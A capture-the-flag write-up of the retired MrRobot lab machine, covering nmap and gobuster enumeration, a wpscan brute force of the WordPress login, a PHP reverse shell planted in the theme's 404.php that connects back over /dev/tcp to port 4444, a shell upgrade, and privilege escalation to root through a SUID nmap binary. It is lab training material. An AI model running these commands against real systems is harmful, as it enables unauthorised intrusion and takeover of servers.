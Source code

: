 # 🧠 CTF Write-Up: MrRobot – HTB-Retired  
**Author**: HackMalayali  
**Date**: 06/12/2025  
**Difficulty**: [Easy]  
**Target IP**: 192.168.215.5



## 🎯 Overview

This machine simulates a real-world vulnerable web server running WordPress.  
The objective is to gain access to the system, escalate privileges, and capture all three flags (if applicable).


## 🔍 Phase 1: Reconnaissance

### 🔸 Nmap Scan
bash
nmap -sC -sV -oN nmap.txt 192.168.215.5


**Findings**:

 
* Port 80 (HTTP) – Apache + WordPress
* Port 443 (HTTPS)
* Port 22 (SSH) – OpenSSH (closed)




## 🌐 Phase 2: Enumeration

### 🔸 Gobuster/dirb

bash
gobuster dir -u http://192.168.215.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt


**Interesting Paths**:

* `/robots.txt` → `fsocity.dic`, `key-1-of-3.txt`
* `/wp-login.php` (WordPress login)



## 🚪 Phase 3: Exploitation

### 🔸 Brute Force WordPress Login

Used `fsocity.dic` as username and password wordlist.

```
bash
wpscan --url http://192.168.215.5 --usernames admin --passwords fsocity.dic
```

**Creds Found**:

* `Elliot / ER28-0652`

---

### 🔸 Upload PHP Reverse Shell

* Gained access to Appearance > 404.php
* Injected reverse shell:

```php
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.215.4/4444 0>&1'"); ?>
```

* Setup listener:

```bash
rlwrap nc -lvnp 4444
```

## 🐚 Phase 4: Post-Exploitation

**Got Shell As**: `daemon`
**Upgraded Shell**:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 🔸 Collected Info:

```bash
whoami
id
uname -a
find / -perm -4000 -type f 2>/dev/null
```



## 👑 Phase 5: Privilege Escalation

### 🔸 SUID Binary Found: `/usr/local/bin/nmap`

**Exploitation**:

```bash
nmap --interactive
!sh
```

**Got Root Shell**:

```bash
whoami → root
```



## 🏁 Flags Captured

* ✅ `key-1-of-3.txt`
* ✅ `key-2-of-3.txt`
* ✅ `key-3-of-3.txt`



## 💡 Lessons Learned

* Always check `robots.txt` and WordPress login pages.
* Enumeration is everything
* SUID binaries can be deadly if misconfigured
* SUID misconfigurations are a common root escalation path.
* GTFOBins is your best friend for SUID abuse.
